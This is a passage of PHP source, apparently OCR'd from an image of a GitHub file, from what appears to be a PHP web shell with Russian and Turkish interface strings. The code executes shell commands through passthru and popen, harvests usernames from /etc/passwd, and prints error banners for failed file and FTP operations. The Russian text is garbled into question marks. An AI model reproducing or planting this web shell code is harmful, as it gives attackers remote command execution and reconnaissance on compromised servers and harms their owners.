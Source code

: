    {
    @ob_start();
    @passthru($cfe);
    $res = @ob_get_contents();
    @ob_end_clean();
   }
  elseif(@is_resource($f = @popen($cfe,"r")))
  {
   $res = "";
   while(!@feof($f)) { $res .= @fread($f,1024); }
   @pclose($f);
  }
 }
 return $res;
}
function get_users()
{
  $users = array();
  $rows=file('/etc/passwd');
  if(!$rows) return 0;
  foreach ($rows as $string)
   {
   	$user = @explode(":",$string);
   	if(substr($string,0,1)!='#') array_push($users,$user[0]);
   }
  return $users;
}
function we($i)
{
if($GLOBALS['language']=="ru"){ $text = '??????! ?? ???? ???????? ? ???? '; }
else { $text = "[-] ERROR! Can't write in file "; }
echo "&lt;table width=100% cellpadding=0 cellspacing=0&gt;&lt;tr&gt;&lt;td bgcolor=#396D95&gt;&lt;font color=orange face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;".$text.$i."&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
return null;
}
function re($i)
{
if($GLOBALS['language']=="ru"){ $text = '??????! ?? ???? ????????? ???? '; }
else { $text = "[-] ERROR! Can't read file "; }
echo "&lt;table width=100% cellpadding=0 cellspacing=0 bgcolor=#000000&gt;&lt;tr&gt;&lt;td bgcolor=#396D95&gt;&lt;font color=orange face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;".$text.$i."&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
return null;
}
function ce($i)
{
if($GLOBALS['language']=="ru"){ $text = "?? ??????? ??????? "; }
else { $text = "Can't create "; }
echo "&lt;table width=100% cellpadding=0 cellspacing=0 bgcolor=#000000&gt;&lt;tr&gt;&lt;td bgcolor=#396D95&gt;&lt;font color=orange face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;".$text.$i."&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
return null;
}
function fe($l,$n)
{
$text['ru']  = array('?? ??????? ???????????? ? ftp ???????','?????? ??????????? ?? ftp ???????','?? ??????? ???????? ?????????? ?? ftp ???????');
$text['tur'] = array('Connect to ftp server failed','Login to ftp server failed','Can\'t change dir on ftp server');
echo "&lt;table width=100% cellpadding=0 cellspacing=0 bgcolor=#000000&gt;&lt;tr&gt;&lt;td bgcolor=#396D95&gt;&lt;font color=orange face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;".$text[$l][$n]."&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
return null;
